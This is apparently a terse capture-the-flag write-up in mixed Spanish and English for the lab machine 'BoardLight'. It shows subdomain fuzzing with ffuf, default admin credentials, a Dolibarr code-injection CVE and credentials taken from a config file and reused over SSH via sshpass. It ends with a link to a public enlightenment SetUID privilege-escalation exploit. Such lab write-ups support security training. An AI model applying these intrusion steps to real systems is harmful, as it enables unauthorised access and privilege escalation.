 ```yaml
---
layout: default
title: BoardLight
---
```

```bash
ffuf -u http://10.10.11.11 -H "Host: FUZZ.board.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

```
admin \ admin
```

Dolibarr RCE

[Security Advisory: Dolibarr 17.0.0 PHP Code Injection (CVE-2023-30253) - Swascan](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)

Credenciales de configuración del servidor :

```
/var/www/html/crm.board.htb/htdocs/conf/conf.php
```

Probamos contra los usuarios :

```bash
sshpass -p 'serverfun2$2023!!' ssh larissa@board.htb
```

SetUID binaries -> enlightenment

[GitHub - MaherAzzouzi/CVE-2022-37706-LPE-exploit: A reliable exploit + write-up to elevate privileges to root. (Tested on Ubuntu 22.04)](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)
